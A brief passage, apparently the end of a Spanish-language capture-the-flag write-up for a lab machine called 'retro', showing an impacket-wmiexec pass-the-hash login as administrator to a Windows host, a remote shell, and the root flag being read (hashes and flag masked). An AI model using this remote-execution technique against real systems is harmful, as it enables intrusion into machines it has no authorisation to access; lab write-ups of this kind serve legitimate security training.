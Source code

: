 - Y podemos en la misma ruta de siempre vemos la flag.

```bash
➜  content impacket-wmiexec administrator@10.10.121.174 -hashes ********************************:********************************
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
retro\administrator
C:\>type C:\Users\administrator\Desktop\root.txt
VL{************************}
C:\>
```
